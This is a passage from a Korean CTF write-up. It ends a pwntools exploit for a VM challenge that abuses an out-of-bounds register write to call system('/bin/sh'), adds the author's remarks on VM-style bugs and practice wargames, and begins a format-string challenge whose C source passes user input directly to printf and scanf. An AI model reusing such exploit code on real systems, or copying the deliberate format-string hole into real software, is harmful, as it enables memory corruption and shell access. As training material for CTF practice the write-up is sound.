 ```python
payload += b'\x04\x20' + bytes([p64(binsh)[0]])
payload += b'\x04\x21' + bytes([p64(binsh)[1]])
payload += b'\x04\x22' + bytes([p64(binsh)[2]])
payload += b'\x04\x23' + bytes([p64(binsh)[3]])
payload += b'\x04\x24' + bytes([p64(binsh)[4]])
payload += b'\x04\x25' + bytes([p64(binsh)[5]])

payload += b'\x04\x30' + bytes([p64(libc_system)[0]])
payload += b'\x04\x31' + bytes([p64(libc_system)[1]])
payload += b'\x04\x32' + bytes([p64(libc_system)[2]])
payload += b'\x04\x33' + bytes([p64(libc_system)[3]])
payload += b'\x04\x34' + bytes([p64(libc_system)[4]])
payload += b'\x04\x35' + bytes([p64(libc_system)[5]])

p.sendline(payload+b'\x20'*20)

p.interactive()
```


### 블로그 포스트 작성자의 추가적인 코멘트

register 배열의 OOB read/write 취약점을 이용해 푸는 문제입니다. 보통 이러한 형식의 VM 문제에서는 대부분 메모리나 스택에서의 OOB read/write 취약점을 의도 하는 경우가 많습니다. 혹은 parallel VM 형식으로 구현되어 race condition, UAF 같은 취약점으로도 출제되기도 합니다. VM 형식의 문제가 출제된다면 레지스터, 메모리, 스택의 범위 검사를 꼼꼼하게 살펴보시는 것을 추천드립니다.

비슷한 VM 형식의 문제로는 5월달 HSpace CTF에 출제된 chatgpt-evm 문제를 추천드립니다. [HSpace Wargame 링크](https://chall.hspace.io/challenges)

또한, 리버싱으로 제작된 VMUnprotect 문제도 HSpace Wargame에 존재하니 같이 풀어보시는 것을 추천드립니다.

---

## Pormat_string_bug

**출제자 책정 난이도**: medium

```C
#include <stdio.h>

void setup() 
{
    setvbuf(stdin, NULL, 2, 0);
    setvbuf(stdout, NULL, 2, 0);
    setvbuf(stderr, NULL, 2, 0);
}

void print(char *argv1, char *argv2, int argc) 
{
    if(argc == 1) {
        printf(argv1);
    } else {
        printf(argv1, argv2);
    }
}

void input(char *format, void *ptr) 
{
    scanf(format, ptr);
}

void _puts(char *buf) 
{
    puts(buf);
}
```